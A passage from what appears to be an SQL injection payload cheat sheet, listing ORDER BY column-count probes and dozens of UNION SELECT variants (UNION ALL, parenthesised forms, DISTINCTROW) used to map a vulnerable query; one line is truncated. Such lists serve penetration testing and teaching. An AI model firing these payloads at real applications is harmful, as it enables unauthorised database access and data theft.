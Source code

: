 ```bash
ORDER BY 9# 
ORDER BY 10#
```

### Union Select
```bash
UNION SELECT 1
UNION SELECT 1,2
UNION SELECT 1,2,3
UNION SELECT 1,2,3,4
UNION SELECT 1,2,3,4,5
UNION SELECT 1,2,3,4,5,6
UNION SELECT 1,2,3,4,5,6,7
UNION ALL SELECT 1
UNION ALL SELECT 1,2
UNION ALL SELECT 1,2,3
UNION ALL SELECT 1,2,3,4
UNION ALL SELECT 1,2,3,4,5
UNION ALL SELECT 1,2,3,4,5,6
UNION ALL SELECT 1,2,3,4,5,6,7

UNION(SELECT 1)
UNION(SELECT 1,2)
UNION(SELECT 1,2,3)
UNION(SELECT 1,2,3,4)
UNION(SELECT 1,2,3,4,5)
UNION(SELECT 1,2,3,4,5,6)
UNION(SELECT 1,2,3,4,5,6,7)

UNION ALL(SELECT 1)
UNION ALL(SELECT 1,2)
UNION ALL(SELECT 1,2,3)
UNION ALL(SELECT 1,2,3,4)
UNION ALL(SELECT 1,2,3,4,5)
UNION ALL(SELECT 1,2,3,4,5,6)
UNION ALL(SELECT 1,2,3,4,5,6,7)

AND 1 UNION SELECT 1
AND 1 UNION SELECT 1,2
AND 1 UNION SELECT 1,2,3
AND 1 UNION SELECT 1,2,3,4
AND 1 UNION SELECT 1,2,3,4,5
AND 1 UNION SELECT 1,2,3,4,5,6
AND 1 UNION SELECT 1,2,3,4,5,6,7
NION DISTINCTROW SELECT 1
UNION DISTINCTROW SELECT 1,2
UNION DISTINCTROW SELECT 1,2,3
UNION DISTINCTROW SELECT 1,2,3,4
UNION DISTINCTROW SELECT 1,2,3,4,5
UNION DISTINCTROW SELECT 1,2,3,4,5,6
```
